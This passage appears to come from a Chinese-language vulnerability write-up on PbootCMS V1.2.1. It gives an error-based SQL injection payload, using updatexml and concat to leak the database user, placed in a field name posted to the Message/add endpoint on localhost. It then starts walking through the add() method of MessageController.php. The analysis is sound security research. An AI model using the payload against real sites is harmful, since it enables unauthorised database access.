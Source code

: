 ```
url:http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Message/add
post:
    contacts[content`,`create_time`,`update_time`) VALUES ('1', '1' ,1 and updatexml(1,concat(0x3a,user()),1) );-- a] = 1111
    content = 1111
    mobile = 1111 
```

![image](../img/900277ed575b210480064076fd9c4a20.png)

### 0x01.1.2 漏洞解读

路径：PbootCMS-V1.2.1\apps\home\controller\MessageController.php
方法：add(

```
// 留言新增
    public function add()
    {
        if ($_POST) {

```
 if (time() - session('lastsub') &lt; 10) {
            alert_back('您提交太频繁了，请稍后再试！');
        }

        // 验证码验证
        $checkcode = post('checkcode');
        if ($this-&gt;config('message_check_code')) {
            // if (! $checkcode) {
            //     alert_back('验证码不能为空！');
            // }

            if ($checkcode != session('checkcode')) {
                alert_back('验证码错误！');
            }
        }
